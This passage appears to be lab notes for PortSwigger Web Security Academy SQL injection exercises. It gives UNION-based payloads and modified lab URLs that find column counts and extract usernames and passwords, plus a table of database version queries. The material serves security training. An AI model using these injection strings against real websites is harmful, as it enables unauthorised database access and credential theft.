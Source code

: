 `' UNION SELECT NULL,NULL,'a',NULL--`&#x20;

`' UNION SELECT NULL,NULL,NULL,'a'--`

Regular:

`https://ac1f1f361f395e87c021394c00230079.web-security-academy.net/filter?category=Accessories`

Modified:

`https://ac1f1f361f395e87c021394c00230079.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,%27FgYUb0%27,NULL--`

### Using an SQL injection UNION attack to retrieve interesting data <a href="#using-an-sql-injection-union-attack-to-retrieve-interesting-data" id="using-an-sql-injection-union-attack-to-retrieve-interesting-data"></a>

The crucial information needed to perform this attack is that there is a table called `users` with two columns called `username` and `password`

`' UNION SELECT username, password FROM users--`

Regular:

`https://ac401f231f831ad7c0283c9800910099.web-security-academy.net/filter?category=Accessories`

Modified:

`ac401f231f831ad7c0283c9800910099.web-security-academy.net/filter?category=Accessories' UNION SELECT username, password FROM users--`

### Retrieving multiple values within a single column <a href="#retrieving-multiple-values-within-a-single-column" id="retrieving-multiple-values-within-a-single-column"></a>

This example is for Oracle DBs:

`' UNION SELECT username || '~' || password FROM users--`

Tip: use the comma to combine two queries&#x20;

Regular:

`https://ac791f681f4f06c8c0f90ed300ca0036.web-security-academy.net/filter?category=Gifts`

Modified:

`https://ac791f681f4f06c8c0f90ed300ca0036.web-security-academy.net/filter?category=Gifts%27%20UNION%20SELECT%20NULL,username%20||%20%27~%27%20||%20password%20FROM%20users--`

### Querying the database type and version <a href="#querying-the-database-type-and-version" id="querying-the-database-type-and-version"></a>

| Database Type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |
